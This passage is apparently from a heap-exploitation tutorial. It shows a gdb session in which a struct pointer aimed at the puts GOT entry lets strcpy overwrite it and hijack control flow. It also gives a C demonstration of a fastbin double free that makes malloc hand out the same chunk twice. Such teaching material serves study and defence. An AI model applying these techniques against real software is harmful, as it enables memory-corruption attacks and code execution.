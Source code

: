     gdb-peda$ set $i2 = (struct internet*)0x804a028
    gdb-peda$ print *$i2
    $5 = {
      priority = 0x45454545,
      name = 0x8049844 "\004\b\346\203\004\b`\335", <incomplete sequence \350\267>
    }

Given that i2->name points to the GOT entry for `puts` the `strcpy(i2->name, argv[2])` will write the second argument bytes on top of the GOT offset entry, giving ownership of control flow:

    gdb-peda$ x $i2->name
    0x8049844 <puts@got.plt>:       0x080483d6





## Double Free with Fastbins

Armed with an understanding of how the free list structures work, this particular example takes advantage of the fastbins implementation. Consider what would happen if a chunk that was previously allocated from a fastbin (e.g. the 16 byte fastbin) was freed multiple times. Given that `free()` blindly registers the no longer wanted chunk back to the fastbin, if freed multiple times, this same free chunk would end up having multiple registrations in the same fastbin, resulting in possible reallocation of the same chunk to different allocation requests.

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);

	fprintf(stderr, "1st malloc(8): %p\n", a);
	fprintf(stderr, "2nd malloc(8): %p\n", b);
	fprintf(stderr, "3rd malloc(8): %p\n", c);

	fprintf(stderr, "Freeing the first one...\n");
	free(a);
	fprintf(stderr, "So, instead, we'll free %p.\n", b);
	free(b);
	fprintf(stderr, "Now, we can free %p again, now it's head of free list.\n", a);
	free(a);

	fprintf(stderr, "Now the free list has [ %p, %p, %p ]\n", a, b, a);
    fprintf(stderr, "If we malloc 3 times, we'll get %p twice!\n", a);
	fprintf(stderr, "1st malloc(8): %p\n", malloc(8));
	fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
	fprintf(stderr, "3rd malloc(8): %p\n", malloc(8));
}
```
